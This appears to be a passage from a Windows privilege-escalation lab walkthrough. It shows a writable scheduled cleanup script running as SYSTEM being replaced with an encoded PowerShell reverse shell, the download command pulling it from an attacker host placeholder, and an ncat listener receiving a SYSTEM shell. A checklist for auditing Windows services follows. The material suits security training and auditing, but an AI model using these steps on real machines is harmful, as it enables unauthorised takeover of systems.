 
We can see there is a Cleanup script in the folder. Let's take a look at what it does.

````
PS C:\DevTools> Get-Content Cleanup.ps1
#This script is run every 5 minutes to clean up the dev tools directory.
#This will make sure all of your .txt files get cleaned up. It's running as SYSTEM to make sure permissions are NOT an issue
Remove-Item "C:\DevTools\*.txt"
PS C:\DevTools> 
````

This script is annotated for us, and tells us that it will run every 5 minutes to purge the current directory of all .txt files. So if we create our own reverse shell and place it in that powershell script, we will get a new reverse shell as the NT\Authority System user.

You might think this exercise is 100% contrived, but I have seen this privesc a great number of times.

So let's create the reverse shell.

Take the powershell reverse shell from: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

Edit the IP and Port.

Encode using: https://raikia.com/tool-powershell-encoder/

Put that into Cleanup.ps1 on your attacking machine.

Then we transfer the script to our victim:

``(New-Object System.Net.WebClient).DownloadFile("http://YOURIPHERE/Cleanup.ps1", "C:\DevTools\Cleanup.ps1")``

Then we wait.

Now we see we have a Powershell reverse shell as NT\Authority System

````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.49.
Ncat: Connection from 10.22.6.49:64606.

PS C:\Windows\system32> whoami.exe
nt authority\system
PS C:\Windows\system32> hostname.exe
LPETestbed
PS C:\Windows\system32>
````
Whenever we encounter non-standard services, we want to audit their security. Privesc scripts are good for that, but we should also do it manually. I like to audit Windows Services using these steps:

1. Service Path
  * Is the service path quoted?
  * Is the service binary writable with my permissions?
  * Is the directory of the service binary writable?
2. Registry
  * Are the registry entries for the service writable?
  * Are there keys that the service is referencing that are writable?
  * Is the service modifying OTHER registry keys?
3. PATH issues
  * Are there things in front of %WINDIR% in the PATH?
  * Is the first thing in the PATH writable?
4. Hijacking issues
  * Is the service referencing dlls/exes by relative instead of absolute paths?
  * Is the service relying on Windows to locate binaries?
  